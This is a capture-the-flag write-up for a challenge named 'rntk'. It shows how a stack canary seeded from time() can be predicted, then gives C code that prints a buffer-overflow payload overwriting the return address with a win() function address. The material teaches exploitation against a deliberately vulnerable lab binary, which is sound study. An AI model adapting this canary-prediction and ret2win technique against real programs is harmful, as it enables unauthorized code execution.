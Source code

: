 # rntk
In this challenge we are provided with binary `chal` which is random number generator. After decompiling we can see that it has canary stack protector generated with glibc `random()` function which is seeded with `time`. As `random()` generates [pseduo random](https://www.mathstat.dal.ca/~selinger/random/) numbers, we can very easily generate same number by just seeding `srand()` in other program in the same second. <br>

![preview](images/1.png)<br>

We can see that this challenge is classical ret2win and we just have to overflow the stack and overwrite an address of returnee with address of `win()` function.<br>

![preview](images/2.png)<br>
`main()`:<br>
![preview](images/6.png)<br>
`random_guess()`:<br>
![preview](images/7.png)
## Solution
After quick investigation in gdb I could tell that cannary value is at 44-48 bytes (red) of our input and that 56-60 (purple) bytes overwrite address of the returnee.<br>
![preview](images/3.png)<br>
![preveiw](images/4.png)<br>
So I wrote following code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main()
{
    unsigned int n;
    srand(time(0));
    n = rand();
    unsigned char bytes[4];

    bytes[0] = (n >> 24) & 0xFF;
    bytes[1] = (n >> 16) & 0xFF;
    bytes[2] = (n >> 8) & 0xFF;
    bytes[3] = n & 0xFF;
    printf("2\n"); 
    printf("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK%c%c%c%cMMMMNNNN\xb6\x12\x40\x00", bytes[3],bytes[2],bytes[1],bytes[0]);
    return 0;
}
```
passed it as input to `chal`
## And it works!<br>
![preview](images/5.png)
